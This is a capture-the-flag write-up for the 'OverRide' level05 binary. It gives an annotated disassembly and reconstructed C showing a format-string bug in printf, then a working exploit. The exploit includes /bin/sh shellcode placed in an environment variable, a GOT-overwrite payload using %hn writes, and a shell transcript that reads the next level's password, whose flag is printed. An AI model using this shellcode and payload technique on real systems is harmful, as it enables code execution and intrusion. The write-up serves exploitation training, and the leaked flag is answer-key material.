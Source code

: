 ### notes
```c
0x08048444  main
```
---
### 0x080486c8 : main() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
	// 0x1c ... 28
	// 0x90 ... 144
	// 0x64 ... 100
	// 0x28 ... 40
	// 0x8c ... 140

	buffer1[100] = esp+0x28(40)
	int i = esp+0x8c(140) = 0
}
```
- **`<+0> ➜ <+6> : prepare stack frame for main function with size 144`**
```c
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	push   edi
0x08048448 <+4>:	push   ebx
0x08048449 <+5>:	and    esp,0xfffffff0
0x0804844c <+8>:	sub    esp,144
```
- **`<+14> ➜ <+49> : take input frm user up to 100 bytes and save it to buffer1`**
```c
0x08048452 <+14>:	mov    DWORD PTR [i], 0
0x0804845d <+25>:	mov    eax,ds:0x80497f0 // stdin
0x08048462 <+30>:	mov    DWORD PTR [esp + 8],eax
0x08048466 <+34>:	mov    DWORD PTR [esp + 4],100
0x0804846e <+42>:	lea    eax,[buffer1]
0x08048472 <+46>:	mov    DWORD PTR [esp],eax
0x08048475 <+49>:	call   0x8048350 <fgets@plt>
fgets(buffer1, 100, stdin)
```
- **`<+54> ➜ <+186> : loop through the buffer1 and verify its bytes, if between 64 and 90, to xor each by 32 if true`**
```c
0x0804847a <+54>:	mov    DWORD PTR [i], 0
0x08048485 <+65>:	jmp    0x80484d3 <main+143>
do {
	0x08048487 <+67>:	lea    eax,[buffer1]
	0x0804848b <+71>:	add    eax,DWORD PTR [i]
	0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
	0x08048495 <+81>:	cmp    al,0x40
	0x08048497 <+83>:	jle    0x80484cb <main+135>
	if (buffer[i] > 64) {
		0x08048499 <+85>:	lea    eax,[buffer1]
		0x0804849d <+89>:	add    eax,DWORD PTR [i]
		0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
		0x080484a7 <+99>:	cmp    al,0x5a
		0x080484a9 <+101>:	jg     0x80484cb <main+135>
		if (buffer[i] < 90) {
			0x080484ab <+103>:	lea    eax,[buffer1]
			0x080484af <+107>:	add    eax,DWORD PTR [i]
			0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
			0x080484b9 <+117>:	mov    edx,eax
			0x080484bb <+119>:	xor    edx,0x20
			0x080484be <+122>:	lea    eax,[buffer1]
			0x080484c2 <+126>:	add    eax,DWORD PTR [i]
			0x080484c9 <+133>:	mov    BYTE PTR [eax],
			buffer[i] = buffer[i] ^ 32
		}
	}
	0x080484cb <+135>:	add    DWORD PTR [i], 1
	i++;

	0x080484d3 <+143>:	mov    ebx,DWORD PTR [i]
	0x080484da <+150>:	lea    eax,[buffer1]
	0x080484de <+154>:	mov    DWORD PTR [esp+0x1c],0xffffffff
	0x080484e6 <+162>:	mov    edx,eax
	0x080484e8 <+164>:	mov    eax,0x0
	0x080484ed <+169>:	mov    ecx,DWORD PTR [esp+0x1c]
	0x080484f1 <+173>:	mov    edi,edx
	0x080484f3 <+175>:	repnz scas al,BYTE PTR es:[edi]
	0x080484f5 <+177>:	mov    eax,ecx
	0x080484f7 <+179>:	not    eax
	0x080484f9 <+181>:	sub    eax,0x1
	0x080484fc <+184>:	cmp    ebx,eax
	0x080484fe <+186>:	jb     0x8048487 <main+67>
} while (i < strlen(buffer))
```
- **`<+188> ➜ <+195> : print buffer1 with 'printf'`**
```c
0x08048500 <+188>:	lea    eax,[buffer1]
0x08048504 <+192>:	mov    DWORD PTR [esp],eax
0x08048507 <+195>:	call   0x8048340 <printf@plt>
printf(buffer1);
```
- **`<+200> ➜ <+207> : exit with code 0`**
```c
0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
0x08048513 <+207>:	call   0x8048370 <exit@plt>
exit(0);
```

### Code Prediction
```c
int main(int argc(ebp + 8), char **argv(ebp+12)) {
	int i = 0;
	buffer1[100];
	fgets(buffer1, 100, stdin);

	do {
		if (buffer[i] > 64) {
			if (buffer[i] < 90) {
				buffer[i] = buffer[i] ^ 32
			}
		}
		i++;

	} while (i < strlen(buffer))
 
	printf(buffer1);
	exit(0);
}
```

### Stack Illustration
N/A

### Process of the Exploit
- the program takes an input and print it with printf
- the buffer length is 100 bytes length max
- cant save the shellcode in the buffer due to the xor check
- we save shellcode in the env variable
- overwrite the got of exit jump address with the shellcode nopslide address
- shellcode used here : 
	```
	\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
	```
- 
	```
	export PAYLOAD=$(python -c 'print "\x90" * 1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
	```
- list the env variables with address in gdb : **`x/200s environ`**
---

### Solution :
address of shellcode in env : **`0xffffdc64`**(hex) : `4294958180` (dec)
first 2 bytes : **`0xffff`**(hex) : `65535` (dec)
last 2 bytes : **`0xdc64`**(hex) : `56420` (dec)
final payload : **`(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56412c"+"%10$hn"+"%9115c"+"%11$hn"' ;cat -) | ./level05`**

- 
```shell
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56412c"+"%10$hn"+"%9115c"+"%11$hn"' ;cat -) | ./level05
� d �
whoami
level06
pwd
/home/users/level05
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```
|**`flag : h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`**
---

### Ressources :
N/A
